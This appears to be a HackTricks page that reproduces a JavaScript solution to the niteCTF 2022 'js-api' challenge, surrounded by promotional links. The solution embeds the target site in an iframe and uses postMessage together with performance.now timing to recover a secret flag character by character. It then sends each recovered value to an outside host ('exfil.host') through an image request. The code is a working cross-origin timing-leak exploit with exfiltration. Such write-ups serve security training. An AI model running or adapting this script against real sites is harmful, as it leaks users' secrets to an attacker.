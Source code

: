 # performance.now example

<details>

<summary><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

Example taken from [https://ctf.zeyu2001.com/2022/nitectf-2022/js-api](https://ctf.zeyu2001.com/2022/nitectf-2022/js-api)

```javascript
const sleep = (ms) => new Promise((res) => setTimeout(res, ms));

async function check(flag) {
    let w = frame.contentWindow;
    w.postMessage({'op': 'preview', 'payload': '<img name="enable_experimental_features">'}, '*');
    await sleep(1);
    w.postMessage({'op': 'search', 'payload': flag}, '*');
    let t1 = performance.now();
    await sleep(1);
    return (performance.now() - t1) > 200;
}

async function main() {
    let alpha = 'abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ-}';
    window.frame = document.createElement('iframe');
    frame.width = '100%';
    frame.height = '700px';
    frame.src = 'https://challenge.jsapi.tech/';
    document.body.appendChild(frame);
    await sleep(1000);

    let flag = 'nite{';
    while(1) {
        for(let c of alpha) {
            let result = await Promise.race([
                check(flag + c),
                new Promise((res) => setTimeout(() => { res(true); }, 300))
            ]);
            console.log(flag + c, result);
            if(result) {
                flag += c;
                break;
            }
        }
        new Image().src = '//exfil.host/log?' + encodeURIComponent(flag);
    }
}

document.addEventListener('DOMContentLoaded', main);
```

<details>

<summary><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
